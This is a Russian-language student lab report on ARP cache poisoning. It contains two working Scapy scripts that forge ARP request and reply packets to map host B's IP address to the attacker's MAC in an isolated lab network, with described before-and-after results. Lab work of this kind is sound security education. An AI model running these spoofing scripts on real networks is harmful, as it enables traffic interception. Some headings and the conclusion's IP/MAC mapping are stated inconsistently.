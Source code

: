 # Лабораторная работа №1: Атаки на ARP и TCP

# Задача 1.1. С использованием ARP-запроса

### Описание
На хосте M создайте пакет запроса ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, произошла атака или нет.

### Код скрипта:
```python
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst='ff:ff:ff:ff:ff:ff') 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=1) 

pkt = eth / arp 
sendp(pkt)
```

## Результат

### 1. В результате атаки был выполнен скрипт scapy, направленный на хост А.
На скрине видно терминал злоумышленника, выполняющего скрипт. Мы видим, что мак адрес машины злоумышленника - **02:42:0a:03:00:25**, а его ip-адрес - **10.3.0.37**

![Скрин машины злоумышленника](img/1.1.jpg)
**(Рис. 1.1 - Скрин машины злоумышленника)**

### 2. На данном скрине видно терминал жертвы. 
Первая команда arp -n выполнялась ДО того, как был выполнен скрипт с хоста злоумышленника. Мы видим, что arp кэш не содержит никакой информации.
Вторая команда arp -n выполнена ПОСЛЕ того, как был выполнен скрипт. Видим, что в arp кэше появилась запись, которая соотносит ip адрес **10.3.0.3** (который является адресом хоста B) с mac-адресом хоста злоумышленника **02:42:0a:03:00:25**.
![Скрин машины жертвы А](img/1.2.png)
**(Рис. 1.2 - Скрин машины жертвы А)**

Таким образом, можно сделать вывод о том, что атака произведена успешно и в arp-кэше хоста А теперь хранится запись о том, что mac-адрес хоста B соответствует ip-адресу хоста M и в последующем, ответы с хоста А будут отправляться на ip-адрес хоста M.

# Задача 1.2. С использованием ответа ARP
На хосте M создайте ответный пакет ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, успешна атака или нет.

Попробуйте провести атаку по следующим двум сценариям и сообщите о результатах:

IP-адрес B уже находится в кеше A.
IP-адрес B отсутствует в кеше A. Вы можете использовать команду arp -d a.b.c.d, чтобы удалить запись кэша ARP для IP-адреса a.b.c.d.

**Код скрипта**:
```python
#!/usr/bin/python3 
from scapy.all import *
from scapy.layers.l2 import ARP, Ether 

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst=A_mac) 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=2) 

pkt = eth / arp 
sendp(pkt)
```

### Сценарий 1: IP-адрес B уже находится в кеше A.
---

#### Исходное состояние машины А:
![alt text](img/1.5.png)

Видим, что ip-адрес машины А - **10.3.0.2**, в кэше лежит запись о соответствии ip и mac-адресов хоста B (реальные).

------
#### Исходное состояние машины B:

![alt text](img/1.4.png)

Видим, что ip-адрес машины B - **10.3.0.3**.
MAC-адрес - **02:42:0a:03:00:03**

### Сценарий 2: IP-адрес B уже находится в кеше A.
---

#### Исходное состояние машины А:
![alt text](img/1.3.png)

Видим, что ip-адрес машины А - **10.3.0.2**, а arp кэш пустой




------
#### Исходное состояние машины B:

![alt text](img/1.4.png)

Видим, что ip-адрес машины B - **10.3.0.3**, arp кэш так же пустой